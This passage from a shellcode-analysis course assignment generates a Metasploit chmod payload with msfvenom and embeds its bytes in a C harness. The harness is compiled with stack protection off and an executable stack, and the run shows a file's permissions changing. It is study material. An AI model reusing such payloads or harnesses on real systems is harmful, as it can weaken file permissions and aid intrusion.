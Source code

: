 ```bash
```
```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment5$ cat msf-chmod-shellcode | sctest -vvv -Ss 1000000 -G msf-chmod-shellcode.dot
```

Unfortunately, libemu doesn't recognize these syscalls, so, any graphic or source code in C language is shown.

Our last step, to undertstand this shellcode, it is debug the program, using gdb (and peda).

For this purpose, we generate the shellcode again, but this time, the output will be in C language, before, I am going to compile it.

```bash
root@HackingLab:/opt/metasploit-framework# ./msfvenom -p linux/x86/chmod -a x86 FILE=slae.txt -f c -o /home/hiro/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment5/msf-chmod-shellcode.c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 33 bytes
Final size of c file: 165 bytes
Saved as: /home/hiro/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment5/msf-chmod-shellcode.c
```

We edit the msf-chmod-shellcode.c to compile as a program.
```C
#include<stdio.h>
#include<string.h>

unsigned char code[] =
"\x99\x6a\x0f\x58\x52\xe8\x09\x00\x00\x00\x73\x6c\x61\x65\x2e"
"\x74\x78\x74\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01"
"\x58\xcd\x80";


main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

And test it.

```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment5$ gcc -fno-stack-protector -z execstack msf-chmod-shellcode.c -o msf-chmod-shellcode
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment5$ chmod 000 slae.txt 
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment5$ ls -la slae.txt 
---------- 1 hiro hiro 16 abr 15 13:08 slae.txt
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment5$ ./msf-chmod-shellcode
Shellcode Length:  7
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment5$ ls -la slae.txt 
-rw-rw-rw- 1 hiro hiro 16 abr 15 13:08 slae.txt
```
